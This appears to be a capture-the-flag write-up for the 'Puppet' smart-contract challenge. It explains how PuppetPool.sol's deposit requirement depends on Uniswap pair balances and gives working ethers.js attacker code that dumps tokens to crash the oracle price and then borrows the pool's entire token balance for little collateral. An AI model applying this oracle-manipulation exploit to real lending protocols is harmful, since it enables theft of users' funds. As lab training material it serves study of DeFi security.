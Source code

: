 # Puppet

1. The `PuppetPool.sol` calculate the deposit required by using `_computeOraclePrice` which depend on `uniswapPair.balance` and `token.balanceOf(uniswapPair)`. We can manipulate the deposit requirement to be as low as possible by draining the `uniswapPair.balance` and make `token.balanceOf(uniswapPair` high by swaping our token to ETH in uniswapPair.

2. You can calculate the price required by using the code.

```javascript
/** CODE YOUR EXPLOIT HERE */
await this.token
  .connect(attacker)
  .approve(this.uniswapExchange.address, ethers.utils.parseEther("999"));
await this.uniswapExchange
  .connect(attacker)
  .tokenToEthSwapInput(
    ethers.utils.parseEther("999"),
    1,
    (await ethers.provider.getBlock("latest")).timestamp * 2
  );
await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE, {
  value: ethers.utils.parseEther("20"),
});
```
